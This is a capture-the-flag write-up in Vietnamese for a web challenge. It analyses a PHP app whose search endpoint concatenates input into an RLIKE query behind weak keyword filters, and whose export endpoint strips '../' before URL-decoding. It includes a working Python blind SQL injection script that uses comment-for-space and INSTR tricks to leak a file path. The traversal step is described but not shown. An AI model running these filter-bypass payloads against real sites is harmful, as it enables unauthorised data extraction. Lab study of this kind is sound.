


- Describe: 



- Phân tích đề bài:

    - Đầu tiên, ta để ý tới file ```"init_flag.php"``` sẽ tạo file flag ở ```"/var/data/flags/flag-<UUID>.txt"``` và chèn 1 row vào table ```"attachments"``` với ```"is_lost=1"```  (filename là **Q2-incident-raw.csv**)

--> Flag thực tế nằm trên filesystem "/var/data/flags/..." và path được lưu trong database và file có dạng: 

```/var/data/flags/flag-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.txt```

- File ```"attachments.php"``` chỉ hiển thị filename và ```"is_lost"``` chứ không cho ```storage_path```

- File ```"search.php"``` thực hiện truy vấn bằng cách chèn trực tiếp (string-concatenate) nội dung của input vào biểu thức ```RLIKE```:


```$sql = "SELECT id,title FROM cases WHERE title RLIKE '.*$filtered' AND owner_id = :uid LIMIT 1";```

Nhưng trước đó có 1 số filter như:

```python
$q2 = preg_replace('/\s+/u', '', $q);   # Xóa dấu cách (space)
$q2 = preg_replace('/\b(?:or|and)\b/i', '', $q2);    # Filter or, and
$q2 = str_ireplace(["union","load_file","outfile","="], '', $q2);   # Không cho dùng union, load_file, outfile và dấu "="
```

--> Có thể SQLi!

- ```"export.php"``` cố gắng chặn traversal bằng cách xóa chuỗi ```"../"``` khi gặp nó. Nhưng filter này lại được đặt trước khi **urldecode** nên nếu như mà **encode** dấu '/' hay '.' trong chuỗi '../' cái thì coi như filter này làm màu.

--> Workflow để giải bài:

1. Dùng ```"search.php"``` (SQLi) để lấy được file chứa flag trong ```"storage_path"``` của bảng attachments

2. Sau khi có được filename thì **path traversal** để đọc file đó từ ```"export.php"```

- Script lấy file:

```python

import requests
import string
import time
url = "https://dlp.wargame.vn/api/search.php"
cookies = {'PHPSESSID': '81f3c2c9fb4fe7a49a64e44b3d707b07'}
path_to_flag = ""
# initial sliding window (use this instead of mutating prefix itself)
window = "flag"   # your original prefix
# if you meant "flag-" use "flag-" instead
# current_pos left in code for compatibility, but we will use INSTR(... )>0 (recommended)
current_pos = 15
# try a hex-like charset (faster) or keep your original
charset = "abcdef0123456789_-/."
print(f"[*] Bắt đầu brute-force...")
print(f"[*] Window ban đầu: {window}")
print(f"[*] Vị trí bắt đầu (x): {current_pos}\n")
# choose how many chars you want to recover
for i in range(40):
    found = False
    # use window_before so y length stays bounded
    window_before = window
    for char in charset:
        # y is sliding window + candidate char (bounded length)
        y = window_before + char
        # recommended: use >0 (exists) rather than >current_pos; if you insist on >current_pos, keep as before
        raw_payload = f"'&&(INSTR((SELECT/**/storage_path/**/FROM/**/attachments/**/LIMIT/**/1),'{y}')>0)#"
        print(f"[DEBUG] Testing: y='{y}', payload_len={len(raw_payload)}", end='')
        try:
            r = requests.get(url, params={'q': raw_payload}, cookies=cookies, timeout=8)
            try:
                result = r.json()
            except Exception:
                result = {}
            ok = bool(result.get('ok'))
            if ok:
                # append found char to full recovered tail
                path_to_flag += char
                print(" ✓")
                print(f"[+] Tìm thấy: {path_to_flag}")
                # slide the window: drop first char, append found char
                if len(window) > 0:
                    window = (window + char)[1:]
                else:
                    window = char
                current_pos += 1
                print(f"[*] Cập nhật window='{window}', x={current_pos}\n")
                found = True
                break
            else:
                print(" ✗")
        except Exception as e:
            print(f" ERROR: {e}")
        time.sleep(0.08)
    if not found:
        print(f"\n[*] Không tìm thấy ký tự tiếp theo trong charset này.")
        y_txt = window_before + ".txt"
        raw_payload_txt = f"'&&(INSTR((SELECT/**/storage_path/**/FROM/**/attachments/**/LIMIT/**/1),'{y_txt}')>0)#"
        try:
            r = requests.get(url, params={'q': raw_payload_txt}, cookies=cookies, timeout=8)
            try:
                res = r.json()
            except Exception:
                res = {}
            if res.get('ok'):
                path_to_flag += ".txt"
                print(f"[+] Hoàn thành: {path_to_flag}")
            else:
                print("[*] .txt không tồn tại (theo thử window).")
        except Exception as e:
            print(f"[!] Error checking .txt: {e}")
        break
print("\n" + "="*60)
print(f"[RESULT] Path tìm được (tail): {path_to_flag}")
print(f"[RESULT] Full path guess: {window_before + path_to_flag}")  
print("="*60 + "\n")
```

- Sau khi lấy được ```storage_path```, path traversal ở ```/export``` để đọc file này:




